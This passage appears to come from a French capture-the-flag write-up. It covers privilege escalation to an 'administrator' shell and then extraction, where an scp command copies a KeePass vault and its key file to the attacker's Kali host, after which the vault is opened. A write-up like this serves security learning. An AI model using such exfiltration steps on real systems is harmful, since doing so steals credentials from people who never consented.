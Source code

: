 ```bash
lrwxrwxrwx  1 root root   15 Apr 29 08:47 stderr -> /proc/self/fd/2
lrwxrwxrwx  1 root root   15 Apr 29 08:47 stdin -> /proc/self/fd/0
lrwxrwxrwx  1 root root   15 Apr 29 08:47 stdout -> /proc/self/fd/1
crw-rw-rw-  1 root root 5, 0 May  5 17:41 tty
crw-rw-rw-  1 root root 1, 9 Apr 29 08:47 urandom
crw-rw-rw-  1 root root 1, 5 Apr 29 08:47 zero
```
![Desktop View](/assets/img/20250427/mission-04-privesc.png){: width="572" height="400" }
_Elevation de privilèges_

Bingo ! On a bien réussi à éléver nos privilèges et nous avons maintenant un shell en tant que **administrator** !

## 📤 Extraction

Maintenant il reste à récupérer les fichiers qui nous intéressent dans `/home/administrator` en les transferant avec **SSH** sur notre machine : 

```bash
$ scp -P <PORT> vault.kdbx logo.jpg <USER>@<HOST>:/home/kali/
```

On ouvre le coffre en reseignant le fichier `logo.jpg` comme fichier clé : 

![Desktop View](/assets/img/20250427/mission-04-keypass.png){: width="572" height="400" }
_Ouverture du coffre_
